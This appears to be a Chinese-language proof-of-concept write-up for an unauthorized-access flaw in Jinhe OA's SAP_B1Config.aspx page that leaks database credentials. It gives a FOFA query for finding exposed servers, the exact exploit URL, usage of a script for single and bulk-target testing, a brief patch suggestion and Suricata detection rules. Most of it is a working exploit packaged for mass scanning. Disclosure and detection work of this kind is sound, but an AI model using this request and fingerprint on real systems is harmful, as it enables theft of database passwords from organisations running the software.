 ### 产品简介  
金和网络是专业信息化服务商，为城市监管部门提供了互联网+监管解决方案，为企事业单位提供组织协同OA系统升开发平台，电子政务一体化平台智慧电商平合等服务.  

### 漏洞概述  
金和OA SAP_B1Config.aspx存在未授权访问漏洞，攻击者可通过此漏洞获取数据库的账户密码等敏感信息。  

### 指纹识别  
fofa: app="金和网络-金和OA"  

![Image text](https://github.com/YUUKI4O4/POC/blob/main/Jinhe_OA_SAP_B1Config_unauthorized/1.png)

### 漏洞利用  
```
poc:
/C6/JHsoft.CostEAI/SAP_B1Config.aspx/?manage=1
```

![Image text](https://github.com/YUUKI4O4/POC/blob/main/Jinhe_OA_SAP_B1Config_unauthorized/2.png)

### 测试和利用脚本  
```
python3 Jinhe_OA_SAP_B1Config_unauthorized.py -h          
usage: Jinhe_OA_SAP_B1Config_unauthorized.py [-h] [-t] [-r FILE] [-u URL]

### Jinhe OA SAP_ B1Config.aspx has an unauthorized access vulnerability. ###

options:
  -h, --help            show this help message and exit
  -t, --target_collection
                        Perform target collection
  -r FILE, --multi_objective_testing FILE
                        Perform multi-objective testing. e.g:python Jinhe_OA_SAP_B1Config_unauthorized.py -r ./url.txt
  -u URL, --single_objective_testing URL
                        Perform single-objective testing. e.g:python Jinhe_OA_SAP_B1Config_unauthorized.py -u http://xxx.xxx.xxx
```

### 修复建议  
1.联系相关软件厂商更新至最新安全版本。  

### Suricata rules  
```
alert http any any -> any any (msg:"Jinhe OA SAP_ B1Config.aspx has an unauthorized access vulnerability"; flow:established,to_server; flowbits:set,Jinhe_OA_SAP_B1Config_unauthorized;noalert; content:"get";http_method;nocase; content:"/C6/JHsoft.CostEAI/SAP_B1Config.aspx/?manage=1";http_uri;fast_pattern;nocase; reference:url,https://github.com/YUUKI4O4/POC/tree/main/Jinhe_OA_SAP_B1Config_unauthorized; classtype:web-attck; metadata:created_at 2024-1-8,updated_at 2024-1-8,creater:YUUKI4O4; sid:7; rev:1;)
alert http any any -> any any (msg:"Jinhe OA SAP_ B1Config.aspx has an unauthorized access vulnerability successfully"; flow:established,from_server; flowbits:isset,Jinhe_OA_SAP_B1Config_unauthorized; content:"200";http_stat_code; content:"txtDatabaseServer";nocase;http_server_body; content:"txtLicenseServer";nocase;http_server_body; content:"txtDatabaseName";nocase;http_server_body; content:"ddlDatabaseType";nocase;http_server_body; content:"txtUserName";nocase;http_server_body; content:"txtUserPassword";nocase;http_server_body; reference:url,https://github.com/YUUKI4O4/POC/tree/main/Jinhe_OA_SAP_B1Config_unauthorized; classtype:web-attck; metadata:created_at 2024-1-8,updated_at 2024-1-8,creater:YUUKI4O4; sid:8; rev:1;)
```
